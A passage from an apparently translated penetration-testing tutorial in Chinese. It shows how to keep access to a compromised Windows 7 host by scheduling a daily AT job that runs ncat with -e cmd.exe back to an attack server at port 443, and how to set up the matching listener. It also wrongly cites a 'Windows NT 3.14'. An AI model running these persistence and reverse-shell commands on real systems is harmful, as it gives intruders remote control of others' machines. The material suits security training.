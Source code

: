 转到 Windows 7 受害者，我们可以在`Windows`目录中看到该文件：

![](img/778d4198-086b-4d65-94ac-42d33336a070.png)

# 设置 NetCat 客户端

自 Windows NT 3.14 以来，Windows 一直有一个命令行工具来运行计划任务。这个工具叫做`AT`命令。这个命令与 Linux 或 UNIX 上可用的`cron`命令非常相似。您可以设置时间、日期和运行任何命令行工具或脚本的次数。因此，使用您的 Meterpreter 连接`shell`到系统：

```
shell  
```

您现在在受害者系统中。输入以下命令：

```
AT 5:00PM ncat.exe -nv 128.199.190.69 443 -ssl -e cmd.exe  
```

![](img/8b165c75-b0db-46fc-8286-c7a655ad0d07.png)

这设置了一个每天下午 5:00 运行的作业。它将使用以下变量运行`ncat.exe`可执行文件。它正在调用攻击服务器`128.199.190.69`的端口`443`。`-ssl`标志告诉连接使用 SSL。`-e cmd.exe`标志告诉可执行文件通过连接运行`cmd.exe`可执行文件。

在下午 5:00 之前，我们使用各种枢纽登录到我们的恶意服务器，并启动`ncat`进入监听模式，等待下午 5:00 到来。

请注意，我们在这里连接到`//rogue3`并运行以下命令：

```
ncat -nvlp 443 -ssl  
```

`-n`标志告诉系统不使用 DNS。`-v`告诉系统使输出详细，这样您可以看到输入和输出。`-l`告诉 Ncat 监听。`-p`告诉 Ncat 在端口`443`上监听，`-ssl`告诉 Ncat 使用 SSL 加密会话：
